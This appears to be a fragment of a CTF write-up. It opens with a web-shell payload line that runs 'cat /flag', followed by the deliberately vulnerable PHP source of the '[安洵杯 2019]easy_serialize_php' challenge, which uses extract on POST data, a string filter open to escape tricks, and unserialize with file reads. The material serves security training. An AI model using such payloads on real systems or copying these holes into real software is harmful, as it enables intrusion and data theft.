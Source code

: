 ```python
```

payload

```
/xk0SzyKwfzw.php?Efa5BVG=cat /flag
```

## [安洵杯 2019]easy_serialize_php

```php
 <?php

$function = @$_GET['f'];

function filter($img){
    $filter_arr = array('php','flag','php5','php4','fl1g');
    $filter = '/'.implode('|',$filter_arr).'/i';
    return preg_replace($filter,'',$img);
}


if($_SESSION){
    unset($_SESSION);
}

$_SESSION["user"] = 'guest';
$_SESSION['function'] = $function;

extract($_POST);

if(!$function){
    echo '<a href="index.php?f=highlight_file">source_code</a>';
}

if(!$_GET['img_path']){
    $_SESSION['img'] = base64_encode('guest_img.png');
}else{
    $_SESSION['img'] = sha1(base64_encode($_GET['img_path']));
}

$serialize_info = filter(serialize($_SESSION));

if($function == 'highlight_file'){
    highlight_file('index.php');
}else if($function == 'phpinfo'){
    eval('phpinfo();'); //maybe you can find something in here!
}else if($function == 'show_image'){
    $userinfo = unserialize($serialize_info);
    echo file_get_contents(base64_decode($userinfo['img']));
}
```
